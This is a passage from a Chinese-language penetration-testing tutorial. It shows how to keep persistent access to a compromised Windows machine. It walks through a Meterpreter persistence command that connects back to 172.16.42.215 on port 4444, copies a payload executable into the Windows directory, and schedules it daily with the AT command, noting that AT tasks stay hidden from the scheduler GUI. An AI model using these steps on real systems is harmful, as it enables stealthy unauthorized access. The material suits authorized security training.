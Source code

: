 要设置此设置，我们将使用以下设置：

```
run persistence -U -S -i 15 -p 4444 -r 172.16.42.215  
```

![](img/d72f78a3-71d8-47c7-9ac6-1c48d6211492.png)

哦，好吧；不可用的 RPC 服务再次让我们失望，所以让我们尝试一种更老的方法：`AT`命令。`AT`命令是任务调度器，可以追溯到 NT3.51 时代，并且只能从命令行运行。这也给了它一点隐蔽性，因为使用`AT`调度的任务不会显示在任务调度器的 GUI 版本中。它们是两个独立的应用程序，不共享工作。AT 服务非常类似于 Linux 和 UNIX 上的 Cron。还有一个`AT`调度器也在这些系统上运行。

因此，要从 MeterMeter 转到远程 shell，请运行以下命令：

```
Shell  
```

首先，将有效负载从`Temp`目录移动到`Windows`目录，这样有效负载将在不使用有效负载的完整路径的情况下运行：

```
copy C:\Windows\Temp\server.exe C:\Windows\server.exe  
```

从远程 shell 运行以下命令，以确保计划程序服务正在运行：

```
net start "task scheduler"
at 23:30 /every:M,T,W,TH,F,SA,SU server.exe  
```

![](img/960aafe0-61b8-4baf-844d-68f778c06563.png)
